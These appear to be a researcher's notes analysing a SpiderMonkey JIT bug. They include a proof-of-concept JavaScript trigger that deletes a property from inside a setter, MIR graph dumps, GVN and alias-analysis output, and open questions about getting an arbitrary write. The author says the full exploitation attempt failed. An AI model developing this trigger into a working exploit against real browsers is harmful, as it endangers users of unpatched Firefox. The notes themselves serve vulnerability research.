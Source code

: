 # Resources

https://bug1607443.bmoattachments.org/attachment.cgi?id=9119101

"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\windbg.exe" js.exe -f exploit.js -i

bp js!js::math_atan2

# Understanding the bug

```
let arr1 = [];
let arr2 = [1.1, 2.2, , 4.4];

//when arr2 property is set, it will delete arr1.x property. This property is then referenced causing a crash
arr2.__defineSetter__("-1", function(x) {
    delete arr1.x;
});

{
	//index JITTED with 5, b is jumping between True and False
    function f(b, index) {
        let ai = {};
        let aT = {};
        arr1.x = ai;
        if (b)
            arr1.x = aT;
        arr2[index] = 1.1;
		
		//vulnerable part, x is deleted when arr2[-1] is set
        arr1.x.x4 = 0;
    }
	
    delete arr1.x;
    for (let i = 0; i < 0x1000; i++) {
		//increase length of arr2, what is this for?
        arr2.length = 4;
		
		//jit with 50% false and true
        f((i & 1) === 1, 5);
    }
    f(true, -1);
}
```

## Dumping the graphs

//Parameter 1 is b
9 unbox parameter1 to Boolean (infallible) Bool	

//Parameter 2 is index
10 unbox parameter2 to Int32 (infallible) Int32

11 constant magic uninitialized-lexical MagicUninitializedLexical

//let ai = {};
12 constant object 889bec83200 (Object) Object
13 newobject constant12:Object Object

//let aT = {};
14 constant object 889bec83220 (Object) Object
15 newobject constant14:Object Object

//16-22: arr1.x = ai;
//16-18: arr1.x is loaded
16 constant object 889bec81040 (LexicalEnvironment) Object
17 slots constant16:Object Slots
18 loadslot slots17:Slots 0 Object
19 guardshape loadslot18:Object Object
//writes arr1.x with ai
20 postwritebarrier guardshape19:Object newobject13:Object
21 slots guardshape19:Object Slots
22 storeslot slots21 0 newobject13

// if (b)
23 test unbox9:Bool block2 block1

// if true
// arr1.x = aT
25 constant object 889bec81040 (LexicalEnvironment) Object
26 slots constant25:Object Slots
27 loadslot slots26:Slots 0 Object
28 guardshape loadslot27:Object Object
29 postwritebarrier guardshape28:Object newobject15:Object
30 slots guardshape28:Object Slots
31 storeslot slots30 0 newobject15

//33-39: arr2[index] = 1.1
33 constant object 889bec81040 (LexicalEnvironment) Object //loads arr2
34 slots constant33:Object Slots
35 loadslot slots34:Slots 1 Object

36 constant 1.1 Double	//value set = 1.1

37 tonumberint32 unbox10:Int32 Int32	//index 
38 elements loadslot35:Object Elements

//StoreElementHole(object, objectElement, index, value)
39 storeelementhole loadslot35:Object elements38:Elements tonumberint3237:Int32 constant36:Double

//40-48: arr1.x.x4 = 0
//Initialize arr1.x.x4
40 constant object 889bec81040 (LexicalEnvironment) Object
41 slots constant40:Object Slots
42 loadslot slots41:Slots 0 Object
43 guardshape loadslot42:Object Object
44 slots guardshape43:Object Slots
45 loadslot slots44:Slots 0 Object

46 constant 0x0 Int32

//arr1.x 
47 constant string 889bec12d40 String

//arr1.x.x4 = 0
48 setpropertycache loadslot45:Object constant47:String constant46:Int32


# Questions

1) Why do we require this line (arr2.length = 4)?
	- What happens to the memory of array when we do this? 

After every iteration, arr2.length becomes 5 because we set arr2[5] = 1.1.
Arr2 length need to be reduced back to 4.
This arr2.length is to facilitate the arr2[5].

2) Before SetPropertyCache is called, there is a guardshape.

In order for this exploit to work, GuardShape needs to be elimininated in the GVN phase.
In order for this exploit to work, arr1.x.x4 must not be dependent on arr2[index] instruction in the Alias Analysis phase.

We see that the guardshape is actually depending on the same node (start6). 
There is high chance that they will be removed in the GVN phase.

[AliasSummaries] Dependency list for other passes:
[AliasSummaries]  slots17 marked depending on start6
[AliasSummaries]  loadslot18 marked depending on start6
[AliasSummaries]  guardshape19 marked depending on start6
[AliasSummaries]  slots21 marked depending on start6
[AliasSummaries]  slots26 marked depending on start6
[AliasSummaries]  loadslot27 marked depending on start6
[AliasSummaries]  guardshape28 marked depending on start6
[AliasSummaries]  slots30 marked depending on start6
[AliasSummaries]  slots34 marked depending on start6
[AliasSummaries]  loadslot35 marked depending on start6
[AliasSummaries]  elements38 marked depending on start6
[AliasSummaries]  slots41 marked depending on start6
[AliasSummaries]  loadslot42 marked depending on start6
[AliasSummaries]  guardshape43 marked depending on start6

And indeed in the GVN Phase:

35 loadslot slots17:Slots 1 Object
36 constant 1.1 Double
38 elements loadslot35:Object Elements
39 storeelementhole loadslot35:Object elements38:Elements unbox10:Int32 constant36:Double
45 loadslot slots21:Slots 0 Object
46 constant 0x0 Int32
47 constant string 1fce46712d40 String
48 setpropertycache loadslot45:Object constant47:String constant46:Int32

3) So how do we exploit this?

From the POC, we look like we have an arbitrary write at arr1.x.x4. We can write any value.
** Lets just verify this, whether we can write any value **

What we are missing is, we need to know where the write is happening.

To do that, we need to analyse how properties are like in an array.

The exploitation method above isnt possible because I was unable to reclaim the memory spot in arr1.x. 

4) Why do we need to delete arr1.x before we jit?

000021d1`79f021e0 0000124a9937dd00 
000021d1`79f021e8 0000124a993987e8 
000021d1`79f021f0 0000000000000000 
000021d1`79f021f8 000021d179f02210 
000021d1`79f02200 0000000000000000 
000021d1`79f02208 0000000000000006 







